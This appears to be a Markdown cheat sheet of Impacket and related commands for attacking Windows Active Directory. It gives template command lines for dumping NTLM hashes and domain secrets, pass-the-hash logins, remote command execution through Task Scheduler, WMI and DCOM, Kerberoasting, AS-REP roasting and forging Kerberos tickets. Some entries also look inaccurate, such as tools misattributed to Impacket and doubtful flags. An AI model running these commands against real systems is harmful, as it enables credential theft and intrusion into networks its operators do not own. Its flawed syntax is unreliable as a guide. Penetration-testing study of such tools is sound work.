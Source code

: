 ```yaml
---
legal-banner: true
---
```


### **Impacket Toolkit**

Impacket is a collection of Python classes for working with network protocols. It is highly regarded in the cybersecurity community for its ability to handle low-level network tasks and its extensive support for various protocols, making it an essential toolkit for penetration testers and security researchers.

### **SMB/SMB2**

**smbclient.py** : Interactive SMB client to work with shares.

1. Access SMB shares interactively  
```bash
smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```  
2. List all available shares on the target  
```bash
smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -L
```  

**secretsdump.py** : Dump secrets from a remote machine without executing any agent.

1. Dump NTLM hashes of all domain users from a domain controller  
```bash
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```  

2. Dump NTLM hashes using Pass-the-Hash  
```bash
secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

**netview.py** : Enumerate shares and sessions on the network.

1. Enumerate network shares and sessions  
```bash
netview.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```  

2. Enumerate shares using Pass-the-Hash  
```bash
netview.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

### **MSRPC**

**rpcclient.py** : Execute client-side MSRPC calls. 

1. Execute MSRPC client calls  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Enumerate domain users  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomusers"
```

3. Enumerate domain groups  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomgroups"
```

4. Execute command on target machine  
```bash
rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "cmd"
```  

**rpcdump.py** : Dump information about endpoints and interfaces.

1. Dump RPC endpoints and interfaces info  
```bash
rpcdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Dump RPC endpoints using Pass-the-Hash  
```bash
rpcdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```

3. Dump RPC endpoints with no credentials  
```bash
rpcdump.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

### **DCE/RPC**

**atexec.py** : Execute commands using Task Scheduler.

1. Execute command using Task Scheduler  
```bash
atexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]
```

2. Execute command using Pass-the-Hash  
```bash
atexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```

3. Execute command with no credentials  
```bash
atexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```  

**wmiexec.py** : Execute commands via WMI.

1. Execute command via WMI  
```bash
wmiexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]
```

2. Execute command using Pass-the-Hash  
```bash
wmiexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```

3. Execute command with no credentials  
```bash
wmiexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```  

**dcomexec.py** : Execute commands using DCOM. 

1. Execute command using DCOM  
```bash
dcomexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]
```

2. Execute command using Pass-the-Hash  
```bash
dcomexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```

3. Execute command with no credentials  
```bash
dcomexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]
```  

### **LDAP**

#### **GetADUsers.py** : Enumerate all users in the domain.

1. Enumerate all domain users  
```bash
GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Enumerate all users including disabled accounts  
```bash
GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -all
```

3. Use Pass-the-Hash for enumeration  
```bash
GetADUsers.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

#### **GetUserSPNs.py** : Enumerate Service Principal Names (SPNs).

1. Enumerate user SPNs  
```bash
GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]
```

2. Request TGS for identified SPNs  
```bash
GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]
```

3. Use Pass-the-Hash to enumerate SPNs  
```bash
GetUserSPNs.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME] -dc-ip [IP-ADDRESS]
```  

#### **windapsearch.py** : Perform LDAP queries against Active Directory. 

1. Enumerate Group Policy Objects  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --gpos
```

2. Enumerate objects with administrative privileges  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --admin-objects
```

3. Enumerate users with SPNs  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --user-spns
```

4. Enumerate users with unconstrained delegation  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-users
```

5. Enumerate computers with unconstrained delegation  
```bash
python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-computers
```  

### **Kerberos**

#### **ticketer.py** : Generate Kerberos tickets.

1. Generate a TGT ticket for a user  
```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] [USERNAME]
```

2. Generate a service ticket for a user and SPN  
```bash
ticketer.py -nthash [NTHASH] -domain-sid [SID] -request [USERNAME] [SPN]
```

3. Generate TGT ticket with AES encryption  
```bash
ticketer.py -aesKey [AESKEY] -domain-sid [SID] [USERNAME]
```  

**GetNPUsers.py** : Check for accounts with pre-authentication disabled.

1. Enumerate accounts with pre-auth disabled  
```bash
GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]
```

2. Request TGT for identified accounts  
```bash
GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]
```

3. Request TGT using Kerberos authentication  
```bash
GetNPUsers.py -k [DOMAIN]/[USERNAME] -request -dc-ip [IP-ADDRESS]
```  

### **NTLM**

**lookupsid.py** : Enumerate domain SID information.

1. Enumerate domain SID info  
```bash
lookupsid.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Enumerate domain SID info using Pass-the-Hash  
```bash
lookupsid.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```

3. Enumerate domain SID info with no credentials  
```bash
lookupsid.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  

**secretsdump.py** : Dump secrets from remote machines.

1. Dump secrets from a remote machine  
```bash
secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

2. Dump secrets from the domain controller  
```bash
secretsdump.py -just-dc-user [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]
```

3. Dump secrets using Pass-the-Hash  
```bash
secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]
```  